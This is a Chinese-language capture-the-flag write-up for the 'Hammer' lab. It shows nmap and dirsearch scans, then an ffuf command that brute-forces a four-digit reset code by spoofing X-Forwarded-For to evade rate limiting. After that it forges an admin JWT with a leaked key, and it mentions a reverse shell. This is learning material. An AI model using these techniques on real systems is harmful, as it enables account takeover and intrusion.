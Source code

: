 # Hammer

端口扫描

```shell
sudo nmap --min-rate 10000 -p- 10.10.74.232

PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste
```

详细端口扫描

```shell
sudo nmap -sT -sC -sV -O 10.10.74.232 -p22,1337

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c5:22:9f:91:f8:6e:97:2d:14:c1:01:6c:97:59:fe:01 (RSA)
|   256 5a:cb:12:ff:5b:0d:44:41:22:71:43:a8:3f:5b:84:48 (ECDSA)
|_  256 5d:aa:67:cc:03:09:4d:62:86:c0:86:2c:23:6c:54:38 (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

打开网站是一个邮箱密码登录页面

还有一个密码找回的功能

打开网页源代码看看

```html
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```

一行注释，告诉我们路径名一定是hmr_DIRECTORY_NAME这种格式的，那就让hmr_作为前缀进行目录扫描

```shell
sudo dirsearch 10.10.74.232:1337 --prefixes hmr_

301   320B   http://10.10.49.188:1337/hmr_js    -> REDIRECTS TO: http://10.10.49.188:1337/hmr_js/
301   321B   http://10.10.49.188:1337/hmr_css    -> REDIRECTS TO: http://10.10.49.188:1337/hmr_css/
301   324B   http://10.10.49.188:1337/hmr_images    -> REDIRECTS TO: http://10.10.49.188:1337/hmr_images/
200   464B   http://10.10.49.188:1337/hmr_images/
200   470B   http://10.10.49.188:1337/hmr_js/
301   322B   http://10.10.49.188:1337/hmr_logs    -> REDIRECTS TO: http://10.10.49.188:1337/hmr_logs/
200   462B   http://10.10.49.188:1337/hmr_logs/
```

打开http://10.10.49.188:1337/hmr_logs/

在http://10.10.49.188:1337/hmr_logs/error.logs中发现如下内容

```html
[Mon Aug 19 12:00:01.123456 2024] [core:error] [pid 12345:tid 139999999999999] [client 192.168.1.10:56832] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:01:22.987654 2024] [authz_core:error] [pid 12346:tid 139999999999998] [client 192.168.1.15:45918] AH01630: client denied by server configuration: /var/www/html/
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:03:45.765432 2024] [authz_core:error] [pid 12348:tid 139999999999996] [client 192.168.1.20:37254] AH01627: client denied by server configuration: /etc/shadow
[Mon Aug 19 12:04:56.654321 2024] [core:error] [pid 12349:tid 139999999999995] [client 192.168.1.22:38100] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
[Mon Aug 19 12:07:29.321098 2024] [core:error] [pid 12352:tid 139999999999992] [client 192.168.1.35:42310] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down

```

发现一个邮箱，尝试找回密码

发现是通过一个四位数验证码来进行的身份

在bp里研究之后发现会对验证码的尝试次数有限制，但是从不同的IP地址发出的相同请求是可以重置该限制的，并且是不会对IP经行验证的，那就直接进行爆破

```shell
生成验证码字典
seq -w 0000 9999 >> codes.txt
爆破
ffuf -u http://10.10.74.232:1337/reset_password.php -w codes.txt -X "POST" -H "Content-Type: application/x-www-form-urlencoded" -H "X-Forwarded-For: FUZZ" -H "Cookie: PHPSESSID=drbe3iikr8i168uigqgtmtqh3l" -d "recovery_code=FUZZ" -fr "Invalid"
```

拿到验证码之后重置密码，再次登录

看到我们的角色为user，并且可以命令执行,但多次尝试之后发现好像只有ls可以执行，并且注意到页面每隔一段时间就会自动登出，查看源代码后发现它会检查persistentSession的值是否为true，如果值为no就会登出，我们可以在localstorage中将其手动更改为true，或者在bp中测试

```html
ls

188ade1.key
composer.json
config.php
dashboard.php
execute_command.php
hmr_css
hmr_images
hmr_js
hmr_logs
index.php
logout.php
reset_password.php
vendor
```

直接访问网址http://10.10.74.232:1337/188ade1.key将188ade1.key下载下来，打开拿到密钥56058354efb3daa97ebab00fabd7a7d7

猜测其为jwt的密钥，在https://jwt.io/中修改jwt令牌，使role为admin，并填写密钥

将新拿到的token替换掉原先的，再执行其他命令即可成功

最后反弹shell，拿到flag